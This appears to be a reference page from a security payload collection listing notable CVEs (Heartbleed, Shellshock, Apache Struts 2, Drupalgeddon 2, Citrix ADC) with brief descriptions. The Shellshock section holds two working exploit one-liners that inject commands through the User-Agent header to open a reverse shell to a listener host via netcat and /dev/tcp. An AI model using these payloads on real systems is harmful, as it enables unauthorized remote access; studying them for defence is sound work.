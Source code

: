 # Common Vulnerabilities and Exposures

Big CVEs in the last 5 years.

## CVE-2014-0160 - Heartbleed

The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. This weakness allows stealing the information protected, under normal conditions, by the SSL/TLS encryption used to secure the Internet. SSL/TLS provides communication security and privacy over the Internet for applications such as web, email, instant messaging (IM) and some virtual private networks (VPNs).

## CVE-2014-6271 - Shellshock

Shellshock, also known as Bashdoor is a family of security bug in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014. Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.

```powershell
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 10.0.0.2 4444 -e /bin/sh\r\n"
curl --silent -k -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.2/4444 0>&1" "https://10.0.0.1/cgi-bin/admin.cgi" 
```

## CVE-2017-5638 - Apache Struts 2

On March 6th, a new remote code execution (RCE) vulnerability in Apache Struts 2 was made public. This recent vulnerability, CVE-2017-5638, allows a remote attacker to inject operating system commands into a web application through the “Content-Type” header.

## CVE-2018-7600 - Drupalgeddon 2

A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x. This potentially allows attackers to exploit multiple attack vectors on a Drupal site, which could result in the site being completely compromised.

## CVE-2019-19781 -  Citrix ADC Netscaler

A remote code execution vulnerability in Citrix Application Delivery Controller (ADC) formerly known as NetScaler ADC and Citrix Gateway formerly known as NetScaler Gateway that, if exploited, could allow an unauthenticated attacker to perform arbitrary code execution.

Technology Affect:
- Citrix ADC and Citrix Gateway version 13.0 all supported builds
- Citrix ADC and NetScaler Gateway version 12.1 all supported builds
- Citrix ADC and NetScaler Gateway version 12.0 all supported builds
- Citrix ADC and NetScaler Gateway version 11.1 all supported builds
- Citrix NetScaler ADC and NetScaler Gateway version 10.5 all supported builds




## Thanks to

* [Heartbleed - Official website](http://heartbleed.com)
* [Shellshock - Wikipedia](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
* [Imperva Apache Struts analysis](https://www.imperva.com/blog/2017/03/cve-2017-5638-new-remote-code-execution-rce-vulnerability-in-apache-struts-2/)
